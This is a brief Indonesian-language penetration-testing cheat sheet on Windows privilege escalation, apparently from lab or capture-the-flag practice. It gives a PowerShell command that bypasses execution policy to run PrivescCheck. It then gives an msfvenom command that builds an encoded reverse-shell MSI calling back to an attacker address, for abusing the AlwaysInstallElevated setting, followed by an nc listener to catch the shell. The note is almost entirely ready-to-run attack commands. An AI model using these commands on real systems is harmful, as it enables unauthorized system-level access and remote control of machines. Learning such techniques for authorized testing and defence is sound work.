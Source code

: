 # PrivescCheck 

dipake untuk cek privesc

    C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Always Install Elevated

allow user buat install package dengan akses system
cara cek bis apaka `PrivescCheck` kalo enabled bisa pakai msfvenom buat bikin exploit

    msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi

selanjutnya tinggal upload, listen, dan execute.

    nc -lvvp 1234

